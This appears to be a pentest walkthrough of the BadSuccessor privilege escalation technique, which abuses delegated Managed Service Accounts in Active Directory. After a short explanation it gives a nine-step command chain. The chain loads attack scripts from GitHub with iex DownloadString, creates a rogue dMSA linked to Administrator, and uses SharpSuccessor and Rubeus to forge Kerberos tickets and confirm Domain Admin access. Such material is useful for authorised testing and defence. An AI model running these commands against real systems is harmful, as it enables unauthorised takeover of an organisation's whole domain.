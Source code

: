 # Bad Successor dMSA

## Tools: 

https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/112efc20807e14e3c05c2307e3e6816dc4f2b5ef/tools/ActiveDirectory/BadSuccessor.ps1

https://github.com/akamai/BadSuccessor

https://github.com/logangoins/SharpSuccessor

## Prerequisites:

• Windows Server 2019 as Active Directory that supports PKINIT
• Domain must have Ac􀆟ve Directory Certificate Services and Certificate Authority configured.
• Kali Linux packed with tools
• Tools: Rubeus, sharpsuccessor, badsuccessor module

## Explanation

BadSuccessor is a post-compromise privilege escalation technique that targets a new feature in Windows Server 2025: Delegated Managed Service Accounts (dMSAs). This technique takes advantage of vulnerabilities in the dMSA configuration, allowing attackers to escalate their privileges within Ac􀆟ve Directory environments a􀅌er an initial compromise, potentially gran􀆟ng them higher-level access or control over critical systems.

In essence, it exploits:

• Weak ACLs on Organizational Units (OUs): Attackers with low privileges but write rights on an OU can create or modify dMSAs.

• msDS-DelegatedMSAState and msDS-ManagedAccountPrecededByLink: Attributes that allow linking dMSAs to privileged accounts.

• Kerberos quirks: Rogue dMSAs inherit the security context of the linked privileged account, allowing attackers to obtain TGTs and TGSs as Domain Admins.

This attack is particularly dangerous because it allows an attacker with minimal delegated permissions (like write rights on an Organizational Unit (OU)) to:

• Create a rogue dMSA

• Link it to a privileged account (e.g., Domain Admin)

• Obtain Kerberos 􀆟tickets that inherit the target’s security context

• Pivot to full domain control

Unlike attacks that require password cracking or golden ticket creation, BadSuccessor is stealthy, lives entirely within AD’s supported features, and can often bypass detection systems.

## Enumeration and Exploitation

#### 1) Load BadSuccessor and Check for Vulnerabilities

    iex(new-object net.webclient).DownloadString("https://raw.githubusercontent.com/LuemmelSec/Pentest-Tools-Collection/refs/heads/main/tools/ActiveDirectory/BadSuccessor.ps1") 

    BadSuccessor -mode check -Domain domain.local

#### 2) Audit OU Permissions

    iex(new-object net.webclient).DownloadString("https://raw.githubusercontent.com/akamai/BadSuccessor/refs/heads/main/Get-BadSuccessorOUPermissions.ps1")

#### 3) Create Rogue dMSA and link it to Administrator

    BadSuccessor -mode exploit -Path "OU=HACKME,DC=domain,DC=local" -Name "BAD_DMSA" -DelegateAdmin "USER" -DelegateTarget "Administrator" -domain "domain.local"

#### 4) Test access to sensitive resources 

    dir \\dc.domain.local\c$ (Expected access denied)

#### 5) Finalize dMSA Link with SharpSuccessor

    .\SharpSuccessor.exe add /impersonate:Administrator /path:"ou=HACKME,dc=domain,dc=local" /account:USER /name:BAD_DMSA

#### 6) Request delegation TGT with Rubeus

    .\Rubeus.exe tgtdeleg /nowrap

#### 7) Request TGT as BAD_DMSA

    .\Rubeus.exe asktgt /targetuser:BAD_DMSA$ /service:krbtgt/domain.local /opsec /dmsa /nowrap /ptt /ticket:doIFjdCCX...

#### 8) Request Service Ticket for File Server

    .\Rubeus.exe asktgs /user:BAD_DMSA$ /service:cifs/dc.domain.local /opsec /dmsa /nowrap /ptt /ticket:doIFzDCCBigAw...

#### 9) Confirm Domain Admin access

    dir \\dc.domain.local\c$
